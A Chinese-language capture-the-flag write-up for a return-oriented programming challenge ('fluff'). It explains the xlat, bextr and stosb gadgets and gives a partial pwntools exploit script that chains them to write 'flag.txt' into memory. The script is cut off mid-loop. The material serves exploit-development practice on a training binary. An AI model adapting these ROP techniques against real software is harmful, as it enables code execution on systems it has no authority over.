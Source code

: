 xlat指令：将[rbx+al]的值赋值给al，这里的64位解析出来gdb显示为xlatb，赋值后rax高位不变。
bextr指令：byte extract。bextr dest src1 src2
``dest = (src1 >> (src2 & 0xFF)) & (1 << ((src2 >> 8) & 0xFF) - 1)``
即src2的次低字节表示提取bit位数，最低字节表示提取bit位起始处。将src1提取src2中指定的比特位并赋值到dest中。
例如本题中的 bextr rbx rcx rdx，设rcx = 0b10101100 01011101 00010001 11100111，rdx = 0x0509，则提取：
```
									 98 76543210
	rcx = 0b 10101100 01011101 00010001 11100111
								 [   ]
	rbx = 0x8
```
stosb指令：将al赋值给[rdi]

通过上述3个指令，我们需要怎样构造flag.txt字符串呢？

注意到，能够将寄存器的值赋值到内存中的只有stosb指令，在__libc_csu_init函数中有pop rdi; ret的gadget，我们因此可以控制stosb指令将al的值写到哪里。接下来就需要思考如何将正确的值写入al中了。正好xlat指令提供了解决方案，可以将内存中的一个值写入al。但首先，我们需要控制rbx的值，这样才能够在内存中寻找正确的字节。而对于rbx，我们又可以使用bextr指令，控制rcx和rdx后，我们可以在rbx中写入任意值。这样，整个利用的流程也就清晰了。修改rbx -> 修改al -> 修改内存。

在pwnme函数返回时，rax的值为0xb，是一个较小的值。我们可以在rbx中写入LOAD段中有一块全为0的起始地址，这样就能够将rax赋值为0，便于进行后续操作。

之后就是一个字符一个字符地转存到.bss段中即可。注意：stosb指令执行后rdi会自增，因此只需要写一个rdi赋值的gadget即可。

在赋值过程中，我们似乎可以在每赋值一个字节之后就将rax清零，然后精准定位下一个字节。但是构造完毕之后会发现，整个gadget的长度已经超过了写入的限制——0x200。因此我们需要利用上一个字节的值定位下一个字节的值。在一个字节写入完毕后，rax的值应该为这个字节对应的ASCII码，我们需要在rbx中再减去这个ASCII码值，一样可以定位到下一个字节的位置。同时要注意代码中对rcx本身加上了一个值，也要减去。

payload:

```python
from pwn import *
context.log_level = 'debug'

io = process('./fluff')
elf = ELF('./fluff')

xlat = 0x400628
bextr = 0x40062A
stosb = 0x400639
zero_seg = 0x600fa0			# \x00 in this place
write_addr = 0x601038
rdi = 0x4006A3
main_addr = 0x400607

# address of char 'f', 'l', 'a', 'g', '.', 't', 'x', 't'
# you can view the hex in window 'Hex View-1' in IDA_PRO to find the bytes you want 
char_addr = [0x4003C4, 0x4003C1, 0x4003D6, 0x4003CF, 0x4003C9, 0x4003D8, 0x400246, 0x4003D8]
# ASCII value of each byte
char = [ord(x) for x in 'flag.txt']

print(char)

payload = cyclic(40)
payload += p64(rdi) + p64(write_addr)			# make rdi point to address needed to write

# make 'f' into 0x601038
# gdb tell us that after gadget for rdi, rax should be 0xb, so we minus 0xb to make rax = 0
payload += p64(bextr) + p64(0x2000) + p64(zero_seg - 0x3EF2 - 0xb)		# start = 0, len = 0x20, equals mov rbx, rcx
payload += p64(xlat)
payload += p64(bextr) + p64(0x2000) + p64(char_addr[0] - 0x3EF2)
payload += p64(xlat)
payload += p64(stosb)

for i in range(7):
	payload += p64(bextr) + p64(0x2000) + p64(char_addr[i + 1] - char[i] - 0x3EF2)		# to get the right value
```
